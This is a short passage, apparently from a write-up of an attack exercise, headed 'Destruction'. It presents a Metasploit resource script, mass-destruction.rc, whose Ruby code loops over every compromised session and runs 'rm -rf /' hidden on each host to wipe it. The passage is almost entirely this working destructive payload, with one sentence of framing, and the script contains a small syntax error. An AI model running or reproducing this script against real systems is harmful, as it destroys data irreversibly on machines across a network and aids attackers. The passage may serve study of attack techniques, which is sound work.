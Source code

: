 ## <a name="destruction">Destruction<a/>

To destroy all remaining systems, we also ran a resource file:   
mass-destruction.rc  
```ruby
<ruby>
framework.sessions.each do |num,session|
session.sys.process.execute("/bin/bash", "-c 'rm -rf /'", {'Hidden' => true, 'Channelized' => false})
print_status("Destroying session #{num})
end
</ruby>
```

  



